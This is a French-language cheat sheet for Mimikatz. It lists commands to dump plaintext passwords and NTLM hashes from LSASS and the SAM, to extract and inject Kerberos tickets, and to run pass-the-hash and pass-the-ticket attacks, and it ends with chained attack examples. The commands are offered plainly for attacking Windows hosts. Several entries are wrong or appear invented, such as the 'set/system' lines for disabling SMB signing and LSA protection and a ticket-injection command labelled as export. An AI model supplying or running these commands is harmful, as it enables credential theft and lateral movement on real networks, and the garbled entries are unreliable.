 # 🔐 **Mimikatz Cheat Sheet**

## **Commandes de base**

### 1. **Lancer Mimikatz**
```
mimikatz.exe
```

### 2. **Passer en mode Administrateur**
```
privilege::debug
```

### 3. **Afficher les mots de passe en texte clair (LSA)**
```
sekurlsa::logonpasswords
```

### 4. **Récupérer les hashes NTLM**
```
sekurlsa::ntlm
```

### 5. **Extraire les tickets Kerberos (TGT)**
```
kerberos::list
```

### 6. **Exporter les tickets Kerberos**
```
kerberos::ptt <ticket.kirbi>
```

### 7. **Dump des identifiants d'un processus spécifique (pid)**
```
sekurlsa::logonpasswords /pid <pid>
```

---

##  *Commandes avancées*

### 1. **Injection d'un ticket Kerberos dans la mémoire**
```
kerberos::ptt <ticket.kirbi>
```

### 2. **Récupérer les mots de passe des comptes locaux**
```
lsadump::sam`
```

### 3. **Dump des credentials des sessions en cours**
```
sekurlsa::logonpasswords
```

### 4.  **Dump des hashes NTLM d'un SAM local**
```
lsadump::sam
```

### 5. **Écoute du trafic SMB pour récupérer des credentials**
```
mimikatz.exe -command "kerberos::tickets /export"
```

---

##  *Commandes pour escalade de privilèges*

### 1. **Pass-the-Hash (PTH)**

Utilise un hash NTLM pour accéder à une autre machine sans avoir besoin du mot de passe en clair.
```
mimikatz.exe "sekurlsa::pth /user:<username> /domain:<domain> /rc4:<NTLM_hash> /run:<command>"
```

### 2. **Pass-the-Ticket (PTT)**

Injecte un ticket Kerberos dans la session actuelle.
```
mimikatz.exe "kerberos::ptt <ticket.kirbi>"
```

---

## *Commandes de détection / désactivation*

### 1. **Désactiver la signature SMB**
```
set/system /smbsigdisable:yes
```

### 2. **Desactiver les protections LSA (Local Security Authority)**
```
set/system /lsasignaturedisable:yes
```

---

##  *Autres options utiles*

### 1. **Débugger les processus avec privilèges**
```
privilege::debug
```

### 2. **Vérifier les permissions du fichier LSA**
```
lsadump::lsa
```

### 3. **Exporter les identifiants du processus LSASS**
```
sekurlsa::logonpasswords
```

---

##  Exemples de commandes à combiner pour des attaques

1. **Obtenir un hash NTLM puis passer ce hash pour accéder à une autre machine**
```
sekurlsa::logonpasswords sekurlsa::pth /user:Administrator /domain:DOMAIN /rc4:<NTLM_hash> /run:cmd
```

2. **Extraire et injecter un ticket Kerberos**
  ```
kerberos::list kerberos::ptt <ticket.kirbi>
```  

